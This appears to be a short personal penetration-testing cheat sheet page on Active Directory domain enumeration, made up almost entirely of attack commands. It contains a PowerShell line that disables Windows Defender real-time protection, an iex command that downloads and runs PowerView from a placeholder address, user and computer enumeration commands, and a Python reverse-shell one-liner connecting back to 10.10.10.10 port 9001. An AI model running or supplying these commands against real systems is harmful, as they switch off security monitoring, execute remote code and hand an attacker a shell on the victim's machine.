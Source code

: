 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


### DOMAIN ENUMERATION
 # Patch AMSI or disable AV
<span style="color: Green;"># Patch AMSI or disable AV</span>

```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>

```powershell
      Get-NetUsers | select samaccountname > username.txt
      
      # Get all the computers in the domain
      Get-NetComputer

      # Get information about specific computer
      Get-NetComputer -Identity <computer_name>
```



```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
